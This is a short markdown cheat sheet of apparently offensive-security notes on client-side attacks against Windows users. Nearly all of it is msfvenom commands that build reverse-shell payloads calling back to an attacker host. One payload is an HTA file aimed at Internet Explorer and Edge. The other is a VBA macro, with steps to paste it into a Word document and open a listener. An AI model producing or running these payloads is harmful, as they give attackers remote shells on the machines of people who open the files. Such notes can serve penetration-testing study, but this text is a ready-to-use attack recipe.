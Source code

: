 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save as doc or docm, docx doesn't work
3. open a listener
```
